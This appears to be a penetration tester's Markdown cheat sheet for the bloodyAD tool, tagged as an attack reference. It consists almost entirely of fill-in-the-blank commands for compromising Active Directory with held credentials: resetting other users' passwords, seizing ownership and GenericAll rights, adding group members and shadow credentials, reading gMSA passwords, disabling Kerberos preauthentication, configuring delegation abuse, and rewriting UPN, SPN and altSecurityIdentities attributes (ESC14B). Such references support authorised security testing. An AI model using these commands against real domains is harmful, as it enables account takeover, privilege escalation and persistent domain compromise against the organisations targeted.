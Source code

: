 # bloodyad
#plateform/linux #target/remote #cat/ATTACK

## Set password
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' set password '<target_user>' '<new_passwd|Password123!>'
```

## Get writable
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' get writable
```

## Set owner
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' set owner '<target_obj>' '<our_acc>'
```

## Add GenericAll
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' add genericAll '<target_obj>' '<our_acc>'
```

## Add group member
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' add groupMember '<group>' '<member>'
```
## Shadow Creds
```
bloodyAD --host <target> -d <domain>  -u '<user>' -p '<passwd>' add shadowCredentials <target_user>
```

## ReadGMSAPassword
```
bloodyAD --host <target> -d <domain> -u <user> -p <passwd> get object <target_username> --attr msDS-ManagedPassword
```

## Disable preauth
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' add uac '<target_obj>' -f DONT_REQ_PREAUTH
```

## Add RBCD
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' add rbcd '<target_obj>' '<service_acc>'
```

## Enable Account
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' remove uac '<account>' -f ACCOUNTDISABLE
```

## TRUSTED_TO_AUTH_FOR_DELEGATION 
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' add uac <target_username> -f TRUSTED_TO_AUTH_FOR_DELEGATION
```

## Modify UPN
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' set object <old_upn> userPrincipalName -v <new_upn>
```

## Mail Attribute
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' set object <target_user> mail -v <newmail@test.local>
```

## Write SPN
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' set object <target>servicePrincipalName -v '<domain/meow>'
```

## ESC14B - Modify the altSecurityIdentities attribute
```
bloodyAD --host <target> -d <domain> -u '<user>' -p '<passwd>' set object <target_user> altSecurityIdentities -v 'X509:<RFC822>pain@meow.local'
```
